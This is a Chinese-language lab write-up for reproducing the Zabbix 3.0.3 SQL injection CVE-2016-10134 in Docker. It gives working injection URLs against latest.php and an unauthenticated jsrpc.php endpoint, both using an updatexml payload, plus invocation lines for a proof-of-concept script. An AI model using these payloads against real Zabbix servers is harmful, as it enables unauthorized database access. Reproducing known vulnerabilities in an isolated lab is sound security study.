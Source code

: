 # zabbix latest.php SQL注入漏洞（CVE-2016-10134）

zabbix是一款服务器监控软件，其由server、agent、web等模块组成，其中web模块由PHP编写，用来显示数据库中的结果。

## 运行环境

执行如下命令启动zabbix 3.0.3:

```
docker-compose up -d
```

执行命令后，将启动数据库（mysql）、zabbix server、zabbix agent、zabbix web。如果内存稍小，可能会存在某个容器挂掉的情况，我们可以通过`docker-compose ps`查看容器状态，并通过`docker-compose start`来重新启动容器。

## 复现漏洞

访问`http://your-ip:8080`，用账号`guest`（密码为空）登录游客账户。

登录后，查看Cookie中的`zbx_sessionid`，复制后16位字符：

![](1.png)

将这16个字符作为sid的值，访问`http://your-ip:8080/latest.php?output=ajax&sid=055e1ffa36164a58&favobj=toggle&toggle_open_state=1&toggle_ids[]=updatexml(0,concat(0xa,user()),0)`，可见成功注入：

![](2.png)

这个漏洞也可以通过jsrpc.php触发，且无需登录：`http://your-ip:8080/jsrpc.php?type=0&mode=1&method=screen.get&profileIdx=web.item.graph&resourcetype=17&profileIdx2=updatexml(0,concat(0xa,user()),0)`：

![](3.png)

## POC验证

调试中发现不用用户名和密码也可以进行sql注入，实现细节见POC。

```python
python3 CVE-2016-10134.py -t 127.0.0.1:8080

python3 CVE-2016-10134.py --target 127.0.0.1:8080
```



